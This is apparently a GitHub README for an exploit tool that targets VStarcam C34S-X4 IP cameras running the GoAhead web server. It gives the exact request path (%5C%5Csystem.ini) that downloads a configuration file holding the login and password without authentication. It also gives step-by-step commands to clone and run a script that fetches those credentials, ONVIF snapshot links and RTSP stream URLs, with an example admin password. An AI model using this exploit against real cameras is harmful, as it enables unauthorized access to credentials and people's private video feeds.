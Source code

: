 ## Authentication Treversal
The Vulnerability of GoAhead Service on VStarcam C34S-X4 that allows you to download system.ini configuration file and get login and password.
--
## !WARNING!
The author is trying to draw the attention of the developers to the problem and I am not responsible for the harm caused to you or by you.
--


# IMPLEMENTATION

Еo perform the vulnerability, you must log in to the camera interface without authorization. Then, after the forward slash, you must add %5C%5Csystem.ini
and the file will start downloading. When you open the file, you will see your username and password written together. I have already written a small program
that interacts with the ONVIF protocol and receives images from the camera and a link to the RTSP stream.

# STEPS
1) To use it you have to install [python3](https://www.python.org)
[onvif_zeep](https://github.com/FalkTannhaeuser/python-onvif-zeep) and [requests](https://pypi.org/project/requests/)
```sh
git clone https://github.com/Retr0-code/auth-treversal
pip3 install -r requirements.txt
chmod +x GetInfo.py
python3 GetInfo.py --help
```
<br>
2) You can go to you browser and enter this link <b>http://ip:port/%5C%5Csystem.ini</b>
(You must change ip to address of camera and port to port that web-server run on).
<br>

![MozilaV.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/MozilaV.png)

<br>
Or you can use

```sh
python3 GetInfo.py --host <camera ip> --port <web-server port>
```

and than read as text downloaded file.
<br>

![PythonLogPass.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/PythonLogPass.png)

<br>
3) Now you can log in to web-panel.
<br>

![webPanel.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/webPanel.png)

Or you can use 
<br>

```sh
python3 GetInfo.py --onvif 10080 --host 192.168.0.58 --port 8888
```

<br>
and you get links to snapshots and RTSP stream link.
To get stream you have to specify login and password like this: <b>rtsp://username:password@ip:port/path/to/stream</b> In my case link looks like
this rtsp://admin:888888@192.168.0.58:554/udp/av0_1
<br>

![OnvifShow.png](https://github.com/Retr0-code/auth-treversal/blob/main/Images/OnvifShow.png)
